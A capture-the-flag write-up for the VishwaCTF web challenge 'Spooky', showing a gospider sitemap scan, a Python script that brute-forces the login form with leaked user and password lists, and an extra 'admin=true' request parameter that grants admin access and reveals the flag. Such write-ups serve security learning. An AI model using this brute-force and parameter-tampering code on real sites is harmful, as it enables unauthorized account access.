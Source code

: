# **Writeup - VishwaCTF**

* Category **WEB** <!-- challenge category -->
* Name **Spooky** <!-- challenge name -->
* Difficulty **Medium**

## Description
The challenge show us a site, and the description report that a user forgot his login credentials. The scope of the challenge was to recover the forgotten credentials.

## **Solution**
Firstly looking at the web interface there weren't clues about what to do. So to retrieve more information there were two possibilities:
* Use dirb to see if there are some useful folders to retrieve information.
* Use gospider in order to try to retrieve sitemap.xml or robots.txt
So trying the second way by executing the command:
```shell
gospider -s https://ch39763117927.ch.eng.run/ --sitemap
```
from the sitemap.xml file we discover there are two interesting files inside creds folder, namely pass.txt and user.txt, containing list of user and password of the site. At this point in order to login we bruteforce for every user in users.txt all passwords in pass.txt. It is possible to do this from script using following code
```Python
import requests  
  
url = "https://ch39763117934.ch.eng.run/"  
user_res = requests.get(f"{url}/creds/users.txt")  
users = user_res.text.strip(' \n').split('\n')  
password_res = requests.get(f"{url}/creds/pass.txt")  
passwords = password_res.text.strip(' \n').split('\n')  
correct = tuple()  
  
for user in users:  
	for password in passwords:  
		res = requests.post(f"{url}/login.php", data={"user": user, "pass": password})  
		# log print  
		print(user, password)  
		if "Incorrect" not in res.text:  
			print(res.text)  
			correct = (user, password)  
			break  
	if "Incorrect" not in res.text:  
		break
```
At this point we are logged as user shrekop, with password "VmU5gnXKYN2vLp48", but there's no flag on the page. After thinking about it, the first idea was insert an additional param ```admin='true'``` in the form in order maybe to become admin with the code lines:
```Python
res = requests.post("https://ch39763117927.ch.eng.run/login.php", data={"user": correct[0], "pass": correct[1], 'admin': 'true'})  
print(res.text)
```
This worked as the response was:
```html
<b>Logged in as </b> shrekop (admin)<script>alert('Congratulations. You got the flag!');</script><script>alert('VishwaCTF{h1dd3n_P@raMs}');</script>
```
